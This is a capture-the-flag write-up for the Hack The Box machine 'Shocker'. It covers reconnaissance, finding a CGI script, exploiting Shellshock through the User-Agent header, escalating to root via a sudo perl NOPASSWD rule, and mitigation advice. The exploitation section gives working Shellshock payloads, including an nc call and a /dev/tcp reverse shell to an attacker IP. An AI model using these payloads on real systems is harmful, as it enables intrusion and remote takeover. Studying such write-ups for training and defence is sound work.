

## Machine Information

- **Machine Name:** Shocker
- **Machine IP:** 10.10.10.56
- **Machine Type:** Easy
- **Machine OS:** Linux

## Reconnaissance - Information Gathering

This is the first step that all kinds of hackers perform regardless of what hat they are wearing, because the entire hack depends on how good you perform this step. In reconnaissance, we will gather as much information as possible about the target before launching any attack.

### Ports & Services scan

When you only know the address of the royal palace that you are gonna rob, the first thing you do it look for **open door or ports**, that is what we will do here as well. We will have to determine how many ports and services are running on the target to find a way in through those ports or services.

**Command:**
- `sudo nmap -sVC -p- -O 10.10.10.56 | tee nmapShocker.txt`

**Understanding the command:**
- `-sVC` - Scan service version and utilizes default scripts over open services.
- `-p-` - Scan all ports
- `-O` - Detect possible OS of the target

**Output:**
```
Nmap scan report for 10.10.10.56
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
No exact OS matches for host (If you know what OS is running on it, see [https://nmap.org/submit/](https://nmap.org/submit/) ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/11%OT=80%CT=1%CU=35797%PV=Y%DS=2%DC=I%G=Y%TM=67F9
OS:7808%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)
OS:SEQ(SP=102%GCD=2%ISR=10A%TI=Z%CI=I%II=I%TS=8)OPS(O1=M53CST11NW6%O2=M53CS
OS:T11NW6%O3=M53CNNT11NW6%O4=M53CST11NW6%O5=M53CST11NW6%O6=M53CST11)WIN(W1=
OS:7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=
OS:M53CNNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)
OS:T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G
OS:%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
OS and Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 33.22 seconds
```


### Web Recon

In our port scan, the most suspicious port I found was port 80. Generally, this is where I get the path for my initial foothold, because of outdated versions running on port 80. So, now I try to gather information about the website that is hosted on the target system.


Woah, that feels like a troll to me. I viewed source code and we found nothing interesting there. The term "Don't Bug Me!" seems like saying something to us, but let us ignore that right now and move forward in our investigation.


**Commands:**
- `gobuster dir --url http://10.10.10.56/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
- `searchsploit Apache 2.4.18`
- `nikto -url http://10.10.10.56/`

Next thing I do is to use gobuster on the url, and only one single sub-directory (which was weird) and also tried finding available exploits for Apache server, and I found a privilege escalation which seemed like useful in the later stage. After finding nothing significant, I decided to use nikto on the url and found a **cgi-bin/** vulnerability, but shocking part was that there is no cgi-bin subdirectory on the URL. 


I cannot find a cgi-bin directory using gobuster, so I decided to try again with another tool named dirbuster. I use the same wordlist previously used on gobuster and this time I was able to find cgi-bin directory. This is the reason why you should use multiple tools for the same findings, because some tools are efficient in detecting certain things.


Now it was time for some research, I tried accessing cgi-bin (and it showed a weird behavior with and without slash) and I was not allowed to, then I researched a bit about cgi-bin and it is used to store binaries that might be used by the website for some reason.


**Links:**
- [CGI vulnerabilities](https://www.secopsolution.com/blog/common-gateway-interface-cgi-vulnerabilities)
- [Shellshock](https://www.exploit-db.com/docs/english/48112-the-shellshock-attack-%5Bpaper%5D.pdf?ref=benheater.com)

Furthermore, I started researching about vulnerabilities that are common in CGI, and found something interesting in the process. It is named *shellshock* which is related to the name of the machine, but if you remember that previously we received a weird behavior from cgi-bin, it means that we cannot access cgi-bin itself but we can access binaries inside it. 


**Command:**
- `gobuster dir --url http://10.10.10.56/cgi-bin/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x sh,cgi`

Nice, we were able to find a binary named *user.sh* inside the cgi-bin that we can access, when I opened it up on a browser, I saw a program that looks like some load measuring and event logger program. I don't have much idea about this program, so I decided to analyze it.


I immediately open burpsuite and try to analyze the request and response that we get out of this user.sh program. For the task, I specifically used repeater tool in burpsuite, which allowed me to view the response that server was giving us, at first there seem nothing suspicious but then I did some manipulation with the User-Agent header and the response started behaving weird.




I remembered an exploit when I was doing research on shellshock, it allows to run arbitrary commands on the server with the help of request headers. Using this opportunity I crafted a test exploit that will send a string to my local system nc listener.

**Exploit:**
- `User-Agent:() { :;};/bin/bash -c 'echo "Hacked By Z3R0x30 :)" | nc 10.10.14.12 1234`


Yey! We were successfully able to execute our test exploit, now it was time to build something really malicious, something like a ransomware? Nah just kidding, just a reverse shell.


**Exploit:**
- `User-Agent:() { :;};/bin/bash -i >& /dev/tcp/10.10.14.12/1234 0>&1`

**Exploit explaination:**
The basis of this exploit is this `() { :;};` weird looking string, it seems like the software working to analyze requests ignores this text and saves the next line in an environment variable which is executed without any detection. 

Kudos! We finally achieved the reverse shell and also found the user shell. Now it was time to find a path for privilege escalation, so lets dive for it.


**Commands:**
- `sudo -l`
- `sudo perl -e "system('whoami')"`
- `sudo perl -e "system('pwd')"`

I started looking for any binary or executable which can be executed by us, and luckily we have an executable that we can run without any password verification (NOPASSWD). I verified running perl as sudo to check if it is really running as root and yea, we are running it as root. 


Next step for me was very obvious, there was SSH running on the system, so how about we create SSH keypair for the root user and print out the private key which we can use to authenticate ourselves while logging into the root through SSH. 


Unfortunately, I found no luck in getting access through SSH, because the root password based login was mandatory for this system. So, I decided to execute a perl one-liner reverse shell. I was able to get the root access on my nc listener and lastly printed out the root flag.

## Conclusion - lesson learned

This section describes and ponder upon various vulnerabilities and their exploits that were used during this challenge. It will have a detailed description about the vulnerability and its mitigation. All the work under this section is well-researched and its purpose is to provide sufficient knowledge to the reader about the hack that they can easily identify them in the real world and patch them for the betterment of the society.

### Shellshock - the culprint

Overall, the vulnerability in and of itself does not allow remote code execution, but rather the implementation of a vulnerable bash shell as a part of a network based service. We already have reviewed how a shell script can be utilized to execute arbitrary commands. [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271) vulnerability is described by NIST as *"Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment".* This means any strings trailing a bash function will be executed, when the function and strings are stored in an environmental variable, and then passed to a spawned shell via the exporting of that variable. The "crafted environment" NIST mentions, refers to how the storing the function be parsed by bash. When a new bash shell is spawned, it parses all environmental variables provided or passed to it.

#### Fix - what can be done

The best recommended advice is to patch, update the bash version you are using, update the PHP version getting run on the Apache server, and lastly update your Apache server. Other possible and useful mitigation are as follows:

1. Shellshock type attacks can be avoided by not processing user data directly as variables in web/bash code. It is better to encode it first with something (base64 is a good option).
2. By sanitizing user input and removing un-needed characters, developers can disrupt an attack before it takes place.
3. Monitor logs for evidence of attempted or successful command execution.

### Perl NOPASSWD - privilege escalation made easy

During our post reverse shell enumeration, we were able to find a binary that we were able to execute without a password. It is necessary to avoid such configuration if they are not needed, as they opens a gateway for attackers to escalate their privileges to root. 

#### Fix - what can be done

The best recommended advice is to not give web users or normal users rights to run any binary as root user without a password. Only use NOPASSWD attribute when it is extremely needed and there is no other way to perform that task, in other cases avoid such configurations.

## J01N M3 - Building a community

I am currently in a journey to build a hardcore cybersecurity community with beginners and professionals, where people would share their knowledge and contribute to the betterment of the Internet. If you are interested to join me, get daily cybersecurity updates, join ctfs, hack the box updates, etc then do consider joining my discord server:

[Discord - CYBER X ARMY](https://discord.gg/wyfwSxn3YB)

